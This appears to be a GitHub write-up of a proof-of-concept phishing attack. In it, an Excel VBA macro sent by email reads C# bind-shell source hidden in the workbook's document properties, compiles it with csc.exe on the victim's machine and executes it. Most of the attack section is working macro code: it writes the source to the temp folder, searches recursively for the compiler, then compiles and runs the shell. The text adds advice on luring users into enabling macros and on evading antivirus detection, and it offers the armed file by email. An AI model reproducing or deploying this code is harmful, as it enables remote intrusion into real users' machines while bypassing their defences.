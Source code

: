 # InfoSec Chronicles from Noobland
## Chapter 0: Abuse Excel VBA macro, a simple approach
###### 21/07/20 ver 1.2
In this article I will illustrate how to execute a payload loaded from a VBA macro script embedded in an Excel xlsm file.<br>
I did not implement any obfuscation\encrypting technique, this has to be consider as a POC. Beware that using well known tools will rise AV warning in most cases,
The requirement was to bypass a note AV software installed on a client machine. Following the events:
* A mail with the Excel file was sent to the client, here I play the role of the victim<br>
![Screenshot](screen/mail.png)
* The mail was not marked as Spam, the user eventually can open directly the enclosed file using the corresponding Outlook feature or download to a local folder
* Once the file has been opened of course a warning appears about the macro content. Here it is necessary to lure the user to enable the macro<br>
![Screenshot](screen/macro.png)
* If the macro is enabled the VBA script will *compile a payload*, in this case a bind shell and execute it. Here the MS firewall warn the user since I used a not common port (4444), using a port like 80 did not rise any warning<br>
![Screenshot](screen/fwarn.png)
* The bind shell is executed (a shell window will popup, you need of course to hide it), the AV will sandbox the exe file but actually the shell is executed<br/>
![Screenshot](screen/run.png)
###### *The logic*
* I embedded the source code of the bind shell in the comment property of the Excel file Here the link to the MS doc: https://docs.microsoft.com/en-us/dotnet/api/microsoft.office.tools.excel.workbook.builtindocumentproperties?view=vsto-2017 and I retrived the value in the VBA script as follows:<br>
`var = ActiveWorkbook.BuiltinDocumentProperties(5)`<br>
I used a file system object to write the source code of the shell to the *user temp folder*
```
    Dim path As String
    path = Environ("Temp")
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim oFile As Object
    Set oFile = FSO.CreateTextFile(path & "\mal.cs")
```
* Then I write the content to the file
```   
   oFile.Write var
   oFile.Close
```
* I used the same technique to get the port, that is parametric, and to initialize the wscript shell object<br>
![Screenshot](screen/propxlsm.png)
```
    Dim wSo as Object
    shellObj = ActiveWorkbook.BuiltinDocumentProperties(4)
    wSo = CreateObject(shellObj)
```
* Now we need to find a compiler on the system, I searched for the *csc.exe* since the .Net FW is installed almost on every newer Win OS and my payload is written in C#. Follows the recursive function used to accomplish the task
```
Sub FindCSC(ByVal folderPath As String)

Dim fileName As String
Dim fullFilePath As String
Dim numFolders As Long
Dim folders() As String
Dim i As Long

If Right(folderPath, 1) <> "\" Then folderPath = folderPath & "\"
fileName = Dir(folderPath & "*.*", vbDirectory)

While Len(fileName) <> 0

    If Left(fileName, 1) <> "." Then
 
        fullFilePath = folderPath & fileName
 
        If (GetAttr(fullFilePath) And vbDirectory) = vbDirectory Then
            ReDim Preserve folders(0 To numFolders) As String
            folders(numFolders) = fullFilePath
            numFolders = numFolders + 1
        Else
            If fileName = "csc.exe" Then
                CSC = folderPath & fileName 'found compiler
                Exit Sub
            End If
        End If
 
    End If
 
    fileName = Dir()

Wend

For i = 0 To numFolders - 1
    'if found we exit
    If CSC <> "" Then
        Exit For
    End If
    FindCSC folders(i)
 
Next i

End Sub
```
* Now assuming that the full path of csc.exe is stored in the CSC variable the following will compile the source file:
```
    Dim exePath As String
    exePath = """" & path & "\mal.exe" & """"
    wSo.exec CSC & " /t:exe /out:" & exePath & " " & csPath
```
* Finally I executed the bind shell
```
wSo.exec path & "\mal.exe"
```
* Once the source file has been compiled it will be deleted, if not runnin even the exe file will be deleted on closing the Excel file

###### *Conclusion*
The idea is to compile a payload on the victim machine in order to avoid to downlad it from somewhere since the corresponding code will rise alerts on AV software, same thing happens trying to run a cmd or a bat file. Not talk about powershell. Of course you have to avoid to embedd well-known code or created with msfvenom since they will be detected once compiled. Be creative and code your stuff.<br>Here you can download the Excel file and the source code of the bind shell, the file is encrypted and you need a password to open it, if you are good guy ;) you can drop me an email at **filobers[at]pm[dot]me** and I will happy to assist you<br>

@salut
